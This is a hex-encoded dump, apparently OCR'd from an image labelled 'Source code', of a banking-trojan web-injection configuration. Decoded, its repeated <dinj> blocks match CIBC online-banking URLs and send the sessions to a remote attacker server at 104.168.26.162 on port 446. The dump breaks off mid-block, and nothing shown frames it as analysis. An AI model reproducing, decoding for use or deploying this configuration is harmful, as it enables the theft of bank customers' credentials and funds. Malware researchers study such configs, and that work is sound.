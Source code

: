 74 74 70 73 3A 2F 2F 31 30 34 2E 31 36 38 2E 32
36 2E 31 36 32 3A 34 34 36 2F 72 65 73 70 6F 6E
73 65 2E 70 68 70 3F 73 3D 31 35 32 37 31 36 34
30 39 37 30 38 34 33 30 34 26 69 64 3D 58 70 70
6D 30 62 61 4A 67 58 42 76 38 62 39 42 49 39 61
71 3C 2F 68 6C 3E 0A 3C 70 72 69 3E 31 30 30 3C
2F 70 72 69 3E 0A 3C 73 71 3E 32 3C 2F 73 71 3E
0A 3C 69 67 6E 6F 72 65 5F 6D 61 73 6B 3E 2A 2E
6A 73 2A 3C 2F 69 67 6E 6F 72 65 5F 6D 61 73 6B
3E 0A 3C 69 67 6E 6F 72 65 5F 6D 61 73 6B 3E 2A
2E 63 73 73 2A 3C 2F 69 67 6E 6F 72 65 5F 6D 61
73 6B 3E 0A 3C 72 65 71 75 69 72 65 5F 68 65 61
64 65 72 3E 2A 74 65 78 74 2F 68 74 6D 6C 2A 3C
2F 72 65 71 75 69 72 65 5F 68 65 61 64 65 72 3E
0A 3C 2F 64 69 6E 6A 3E 0A 3C 64 69 6E 6A 3E 0A
3C 6C 6D 3E 68 74 74 70 73 3A 2F 2F 77 77 77 2E
63 69 62 63 6F 6E 6C 69 6E 65 2E 63 69 62 63 2E
63 6F 6D 2F 65 62 6D 2D 72 65 73 6F 75 72 63 65
73 2F 70 75 62 6C 69 63 2F 62 61 6E 6B 69 6E 67
2F 63 69 62 63 2F 63 6C 69 65 6E 74 2F 77 65 62
2F 2A 3C 2F 6C 6D 3E 0A 3C 68 6C 3E 68 74 74 70
73 3A 2F 2F 31 30 34 2E 31 36 38 2E 32 36 2E 31
36 32 3A 34 34 36 2F 72 65 73 70 6F 6E 73 65 2E
70 68 70 3F 73 3D 31 35 32 37 31 36 34 30 39 37
30 38 34 33 30 34 26 69 64 3D 4C 73 6A 76 45 34
46 49 51 66 62 57 44 47 48 37 4B 79 35 50 3C 2F
68 6C 3E 0A 3C 70 72 69 3E 31 30 30 3C 2F 70 72
69 3E 0A 3C 73 71 3E 32 3C 2F 73 71 3E 0A 3C 69
67 6E 6F 72 65 5F 6D 61 73 6B 3E 2A 2E 6A 73 2A
3C 2F 69 67 6E 6F 72 65 5F 6D 61 73 6B 3E 0A 3C
69 67 6E 6F 72 65 5F 6D 61 73 6B 3E 2A 2E 63 73
73 2A 3C 2F 69 67 6E 6F 72 65 5F 6D 61 73 6B 3E
0A 3C 72 65 71 75 69 72 65 5F 68 65 61 64 65 72
3E 2A 74 65 78 74 2F 68 74 6D 6C 2A 3C 2F 72 65
71 75 69 72 65 5F 68 65 61 64 65 72 3E 0A 3C 2F
64 69 6E 6A 3E 0A 3C 64 69 6E 6A 3E 0A 3C 6C 6D
3E 68 74 74 70 73 3A 2F 2F 77 77 77 2E 63 69 62
63 6F 6E 6C 69 6E 65 2E 63 69 62 63 2E 63 6F 6D
2F 6F 6C 62 74 78 6E 2F 2A 3C 2F 6C 6D 3E 0A 3C
68 6C 3E 68 74 74 70 73 3A 2F 2F 31 30 34 2E 31
36 38 2E 32 36 2E 31 36 32 3A 34 34 36 2F 72 65
73 70 6F 6E 73 65 2E 70 68 70 3F 73 3D 31 35 32
37 31 36 34 30 39 37 30 38 34 33 30 34 26 69 64
3D 30 56 31 4E 48 6E 50 54 62 46 79 6E 67 70 54
71 42 54 44 61 3C 2F 68 6C 3E 0A 3C 70 72 69 3E
31 30 30 3C 2F 70 72 69 3E 0A 3C 73 71 3E 32 3C
2F 73 71 3E 0A 3C 69 67 6E 6F 72 65 5F 6D 61 73
6B 3E 2A 2E 6A 73 2A 3C 2F 69 67 6E 6F 72 65 5F
6D 61 73 6B 3E 0A 3C 69 67 6E 6F 72 65 5F 6D 61
73 6B 3E 2A 2E 63 73 73 2A 3C 2F 69 67 6E 6F 72
65 5F 6D 61 73 6B 3E 0A 3C 72 65 71 75 69 72 65
5F 68 65 61 64 65 72 3E 2A 74 65 78 74 2F 68 74
6D 6C 2A 3C 2F 72 65 71 75 69 72 65 5F 68 65 61
64 65 72 3E 0A 3C 2F 64 69 6E 6A 3E 0A 3C 64 69
6E 6A 3E 0A 3C 6C 6D 3E 68 74 74 70 73 3A 2F 2F
2A 63 69 62 63 2E 63 6F 6D 2F 2A 3C 2F 6C 6D 3E
0A 3C 68 6C 3E 68 74 74 70 73 3A 2F 2F 31 30 34
2E 31 36 38 2E 32 36 2E 31 36 32 3A 34 34 36 2F
72 65 73 70 6F 6E 73 65 2E 70 68 70 3F 73 3D 31
35 32 37 31 36 34 30 39 37 30 38 34 33 30 34 26
69 64 3D 4B 36 79 79 78 65 62 68 69 36 35 51 45
6B 79 53 42 51 79 6E 3C 2F 68 6C 3E 0A 3C 70 72
69 3E 31 30 30 3C 2F 70 72 69 3E 0A 3C 73 71 3E
32 3C 2F 73 71 3E 0A 3C 69 67 6E 6F 72 65 5F 6D